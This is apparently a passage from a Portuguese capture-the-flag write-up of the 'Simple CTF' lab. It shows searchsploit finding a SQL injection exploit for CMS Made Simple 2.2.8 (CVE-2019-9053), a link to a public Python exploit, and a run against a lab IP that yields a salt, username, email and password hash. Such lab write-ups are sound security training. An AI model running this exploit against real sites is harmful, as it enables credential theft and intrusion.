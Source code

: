 ![Alt text](/assets/img/simplectf1.png)

## **Acesso**
### Exploit

```shell
┌──(kali💀kali)-[~]
└─$ searchsploit CMS Made Simple 2.2.8                                  
------------------------------------------------------------------------
 Exploit   
 Title                                                                  
------------------------------------------------------------------------
CMS Made Simple < 2.2.10 - SQL Injection    
```       
{: .nolineno }
Baixei esse exploit
<https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3>  
O exploit usa de SQLI pra obter os dados abaixo.

```shell
./exploit.py -u http://10.10.17.200/simple/

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
{: .nolineno }